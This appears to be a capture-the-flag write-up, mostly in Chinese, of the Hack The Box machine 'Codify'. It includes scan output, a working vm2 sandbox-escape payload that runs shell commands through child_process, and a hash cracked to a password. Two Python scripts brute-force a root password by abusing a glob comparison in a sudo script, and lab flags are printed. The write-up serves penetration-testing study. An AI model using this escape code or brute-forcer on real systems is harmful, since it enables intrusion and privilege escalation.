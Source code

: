 ```yaml
---
title: HTB:Codify
date: 2023-11-20 22:33:05
categories:
- Machines
- Lab
tags:
- HTB
- easy
---
```


![image-20231120223825190](../images/image-20231120223825190.png)

nmap结果：

```bash
┌──(kali㉿kali)-[~/htb/Codify]
└─$ sudo nmap -sC -sV --min-rate 10000 10.10.11.239 -oN nmap
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-25 05:04 EST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:05 (0:00:12 remaining)
Nmap scan report for 10.10.11.239
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.73 seconds

```

![image-20231125180807411](../images/image-20231125180807411.png)

![image-20231125180816432](../images/image-20231125180816432.png)

vm2 沙盒 JavaScript

![image-20231125180904638](../images/image-20231125180904638.png)

limitations

![image-20231125181422550](../images/image-20231125181422550.png)

版本3.9.16

![image-20231125180911577](../images/image-20231125180911577.png)

CVE：

![image-20231125181013685](../images/image-20231125181013685.png)

![image-20231125181047169](../images/image-20231125181047169.png)

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```



![image-20231125181136797](../images/image-20231125181136797.png)

尝试建立反向链接

![image-20231125181922872](../images/image-20231125181922872.png)

![image-20231125182056157](../images/image-20231125182056157.png)

建立成功

![image-20231125182108973](../images/image-20231125182108973.png)

![image-20231125182436850](../images/image-20231125182436850.png)

获取tickets.db 是个SQLite文件

![image-20231125182931106](../images/image-20231125182931106.png)

用SQLite DB Browser打开

![image-20231125185226745](../images/image-20231125185226745.png)

john破解

![image-20231125185716041](../images/image-20231125185716041.png)

```
spongebob1
```

ssh连接joshua

![image-20231125185823727](../images/image-20231125185823727.png)

![image-20231125185854557](../images/image-20231125185854557.png)

```bash
joshua@codify:~$ cat user.txt
aad81519cc5d4fd22e5330e04f9b3f9b
```

root:

![image-20231125190016172](../images/image-20231125190016172.png)

查看可以以root运行的文件

![image-20231125190103476](../images/image-20231125190103476.png)

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

exploit1.py

```python
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fl = 0

while not fl:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fl = 1
                print()

```

![image-20231125191307060](../images/image-20231125191307060.png)

exploit2.py

```python
import string
import subprocess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char):
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

![image-20231125191339532](../images/image-20231125191339532.png)

![image-20231125190814525](../images/image-20231125190814525.png)

```bash
root@codify:~# cat root.txt
39fdf2408df293444be66157be9bf05c
```

![image-20231125191400917](../images/image-20231125191400917.png)
